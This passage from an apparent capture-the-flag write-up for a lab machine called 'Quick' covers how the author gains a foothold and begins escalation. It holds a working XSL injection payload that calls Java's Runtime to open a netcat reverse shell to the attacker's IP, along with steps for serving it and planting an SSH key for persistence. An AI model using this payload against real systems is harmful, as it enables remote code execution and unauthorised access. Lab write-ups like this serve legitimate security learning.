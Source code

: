 **shell.xsl**
~~~
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[./nc -e /bin/bash 10.10.14.40 9001 ]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
~~~

I will serve the XML,XSL and the nc binary via a simple python webserver

~~~
┌──(kali@kali)-[~/boxes/quick]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~
{: .language-bash}

And each of the tickets will look like this
![XSL Injection](https://jackhack.se/assets/images/quick/xsl.png)
{: .full}
After sending this three requests, and visiting the corresponding ticket numbers, i got a shell as user sam and got the user flag. 
![User Flag](https://jackhack.se/assets/images/quick/userflag.png)
{: .full}
# Root

Adding my ssh key to *sam's* ~~~ ~/.ssh/authorized_keys ~~~ to upgrade my shell i start manually enumerating the box. I can tell there is another user on the box called *srvadm*, i want to check if that username is mentioned in any files readable by the user *sam*

Running this **grep** oneliner will search all files for the username & hide all errors.

~~~
sam@quick:~$ grep -Ril "srvadm" / 2>/dev/null
/var/log/wtmp
/var/log/journal/fa1cd4f8d4cc49749c8ebb21ffe43ebe/user-1000@ee730b65c5874435ba52fb750e65b4b3-00000000000007da-0005a13f4518b4ce.journal
/var/www/printer/index.php
~~~
{: .language-bash}

The folder inside */www/* called printer looks interesting, by checking the */etc/apache2/sites-enabled/* directory i can see that there's another undiscovered webpage called "printerv2.quick.htb" listening on port 80 

